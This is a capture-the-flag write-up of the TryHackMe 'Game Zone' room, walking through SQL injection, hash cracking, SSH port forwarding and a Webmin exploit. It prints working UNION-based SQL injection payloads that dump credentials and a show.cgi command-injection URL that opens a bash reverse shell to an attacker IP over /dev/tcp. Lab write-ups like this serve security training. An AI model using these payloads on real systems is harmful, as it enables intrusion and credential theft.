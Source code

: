 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Basic_Exploitation
contest_name: Basic Exploitation
problem_code: GAME_ZONE
problem_name: Game Zone
comments: false
tags: SQLi RCE
date: 2022-01-30
---
```


### A rust scan was used to conduct a speed scan on the IP and pipe the open ports to conduct a nmap scan. From what it shows, ports 22 and 80 are open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan2.png)

‎


### Upon visiting the site, it shows me a game zone web page which is also a login page

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/web1.png)

‎


### After attempting a basic SQL Injection, it logged me in

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/portal.png)

‎


### Knowing this site is vulnerable to SQLi, we are able to extract all the reviews. However these are not useful, so next we can attempt to extract something interesting in the database
### We can either do it manually or use SQLMAP

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli1.png)

‎


<h3 style="color:aqua;">‎[Method 1]: From what it looks like, there are 3 columns --> ID (Hidden), Title & Review. Thus we can craft the following syntax to list all table names from information_schema.tables </h3>

```
' AND FALSE UNION SELECT null, table_name, null FROM information_schema.tables;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli2.png)

<p style="color:orange;">We see an interesting table called users</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli3.png)

‎


<h3 style="color:aqua;">‎[Method 1]: The next query is crafted to retrieve column names from the table "users".  From the result we can see that the credentials of users are stored </h3>

```
' AND FALSE UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name = 'users';#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli4.png)

‎


<h3 style="color:aqua;">‎[Method 1]: To list the creds, we can craft this simple SQL query and finally we got credentials of the user agent47 </h3>

```
' AND FALSE UNION SELECT null, username, pwd FROM users;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli5.png)

‎


<h3 style="color:darkorchid;">‎[Method 2]: In order to use SQLMAP to obtain credentials, we first need to intercept the request using Burp Suite and save it into a file for it to be used by SQLMAP for authentication </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/burpsuite.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/save.png)

‎


<h3 style="color:darkorchid;">‎[Method 2]: Next when we ran SQLMAP, we got credentials of the user agent47 </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap_crack.png)

‎


### We can determine this hash type by doing a lookup at online tools. It shows that this is a sha256 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hash.png)

‎


### After saving the hash in a file, I used hashcat to crack the credential of user47

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hashcat.png)

‎


### Using the cracked credentials, we are able to authenticate as user47 from SSH

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ssh.png)

‎


### When list all listening connections, we see that port 10000 is open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/netstat.png)

<p style="color:orange;">When attempting to connect to it, we are getting connection refused. This could probably mean there is a firewall blocking our access to that port</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat1.png)

‎


### We would be able to bypass the firewall by using SSH Port Forward

<p style="color:orange;">Since we can have SSH access to the vulnerable server, we could use the following command to create a link to the server on by accessing 127.0.0.1:9000 on our side from serverIP:10000</p>

```
ssh -L 9000:127.0.0.1:10000 agent47@$IP -fN
```

<p style="color:orange;">By doing so, we now can access the service on port 9000 locally</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat2.png)

<p style="color:orange;">From a Nmap scan, it tells us it’s a web service - webmin</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/nmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login2.png)

‎


### By using agent47 credentials, we are able to login to webmin

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/webmin.png)

‎


### Running a Searchsploit for this version shows us that it is vulnerable to RCE by running /file/show.cgi

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/searchsploit.png)

‎


### Even though we can use Metasploit to get a shell, I'll try and refrain from suing Metasploit because it will be better if we understand how the exploit works

<p style="color:orange;">After understanding how the exploit works,  we can use the following query</p> 

```
/file/show.cgi/bin/<5 or more - random chars of alphabetical & numerical>|<command>|
```

<p style="color:orange;">If I am not wrong, the random characters is used to make a unique file thus below will be my final URL syntax to get a reverse shell</p>
```
/file/show.cgi/bin/g6s7t|bash -c 'exec bash -i &>/dev/tcp/10.11.21.149/9999 <&1'|
```

<p style="color:orange;">Before running that I'll have to open a Ncat listener and only after executing the URL syntax, got me a shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/exploit.png)

